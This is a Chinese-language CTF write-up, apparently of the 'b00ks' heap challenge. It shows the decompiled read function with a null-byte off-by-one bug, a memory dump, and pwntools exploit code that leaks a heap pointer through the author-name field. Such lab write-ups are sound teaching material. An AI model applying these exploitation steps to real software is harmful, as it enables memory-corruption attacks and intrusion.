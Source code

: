 ### 漏洞

程序編寫的 read 函數存在 null byte off-by-one 漏洞，仔細觀察這個 read 函數可以發現對於邊界的考慮是不當的。

```
signed __int64 __fastcall my_read(_BYTE *ptr, int number)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( number <= 0 )
    return 0LL;
  buf = ptr;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == '\n' )
      break;
    ++buf;
    if ( i == number )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

### 利用

#### 泄漏


因爲程序中的 my_read 函數存在 null byte off-by-one ，事實上 my_read 讀入的結束符 '\x00' 是寫入到 0x555555756060 的位置的。這樣當 0x555555756060～0x555555756068 寫入 book 指針時就會覆蓋掉結束符 '\x00' ，所以這裏是存在一個地址泄漏的漏洞。通過打印 author name 就可以獲得 pointer array 中第一項的值。

```
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161   <== author name
0x555555756060:	0x0000555555757480 <== pointer array	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

爲了實現泄漏，首先在 author name 中需要輸入 32 個字節來使得結束符被覆蓋掉。之後我們創建 book1 ，這個 book1 的指針會覆蓋 author name 中最後的 NULL 字節，使得該指針與 author name 直接連接，這樣輸出 author name 則可以獲取到一個堆指針。

```
io.recvuntil('Enter author name:') # input author name
io.sendline('a' * 32)

io.recvuntil('>') # create book1
io.sendline('1')
io.recvuntil('Enter book name size:')
io.sendline('32')
io.recvuntil('Enter book name (Max 32 chars):')
io.sendline('object1')
io.recvuntil('Enter book description size:')
io.sendline('32')
io.recvuntil('Enter book description:')
io.sendline('object1')

io.recvuntil('>') # print book1
io.sendline('4')
io.recvuntil('Author:')
io.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
```